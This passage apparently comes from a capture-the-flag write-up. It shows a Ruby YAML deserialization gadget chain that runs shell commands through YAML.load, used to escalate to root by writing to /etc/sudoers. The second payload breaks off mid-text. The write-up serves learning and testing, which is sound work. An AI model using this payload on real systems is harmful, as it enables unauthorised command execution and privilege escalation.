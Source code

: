 ```bash
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
henry@precious:~$
```

It appears as a simple ruby file to update dependencies.

The only way we have to provide an input to this file is by `YAML.load`. After some (too much I guess) time on google I discovered that this command is vulnerable to `Yaml Deserialization Attack` and I found an exploit too.

```bash
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve
```

## Exploit

After I found this exploit I set the sleep to 10 seconds because 600 was too much and I put the exploit into a `dependencies.yml` in `/home/henry` directory, and It worked as expected.

So now we have the command injection via dependencies.yml and, running the update_dependencies as root, We can now inject into `/etc/sudoers` a new record for henry that means that henry can use `sudo su`.

```bash
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
```
